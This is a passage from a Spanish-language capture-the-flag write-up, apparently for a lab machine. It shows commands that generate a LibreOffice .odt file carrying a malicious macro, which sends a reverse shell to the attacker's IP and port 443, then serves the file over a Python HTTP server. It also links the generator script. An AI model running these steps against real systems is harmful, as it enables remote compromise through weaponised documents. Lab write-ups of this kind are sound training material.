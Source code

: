 ¡Y esto tiene buena pinta!
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.236.125 - - [20/Aug/2024 16:40:58] code 404, message File not found
10.129.236.125 - - [20/Aug/2024 16:40:58] "GET /testing HTTP/1.1" 404 -
```

Podemos utilizar este script de python para generar un documento `.odt` con un macro malicioso dentro el cual nos enviará una reverse shell a la dirección y puerto que especifiquemos.
https://github.com/0bfxgh0st/MMG-LO/blob/main/mmg-odt.py

Generamos el documento malicioso.
```shell
python3 odt.py linux 10.10.14.133 443
[+] Payload: linux reverse shell
[+] Creating malicious .odt file

Done.
```

Lo servimos por el puerto 8081
```shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Modificamos el payload.
![Write-up Image](images/Screenshot_15.png)
